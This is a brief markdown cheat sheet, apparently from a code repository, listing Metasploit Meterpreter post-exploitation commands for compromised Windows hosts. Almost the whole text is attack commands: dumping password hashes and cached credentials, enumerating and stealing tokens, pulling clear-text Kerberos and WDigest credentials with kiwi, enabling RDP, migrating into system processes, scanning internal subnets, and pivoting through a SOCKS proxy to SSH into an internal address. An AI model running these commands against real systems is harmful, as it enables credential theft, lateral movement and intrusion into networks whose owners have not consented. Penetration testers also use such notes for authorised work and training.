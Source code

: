 

# Find post exploit modules

```bash
meterpreter> run post/ <TAB><TAB>
```

```
run post/windows/manage/enable_rdp
```

```
post/windows/gather/smart_hashdump
```
## gather system info

```
post/windows/gather/enum_files

```
```
bgrun scraper
```



# enumerate local subnets

```
run get_local_subnets
netstat
```

# enumerate dns cache

```
run post/windows/gather/dnscache_dump
```


# port scans
```
use auxiliary/scanner/portscan/tcp
```
# ping sweeps

```
use post/mutli/gather/ping_sweep

use post/windows/gather/arp_scanner
```


can add rhosts dynamically with those in hosts with hosts -R or services -S 445 -R


# migrate to...
```
winlogon.exe
wininit.exe
services.exe
```


# cache dump
```
run post/windows/gather/cachedump
```

## finding tokens

```
run post/windows/gather/enum_domain_tokens
run post/windows/gather/enum_tokens
```

# getting clear-text creds

```
load kiwi
creds_kerberos
creds_wdigest
```

# proxy chainz

```
use auxiliary/server/socks_proxy
```

```
proxychains ssh -i barry barry.kripke@192.156.0.110
```

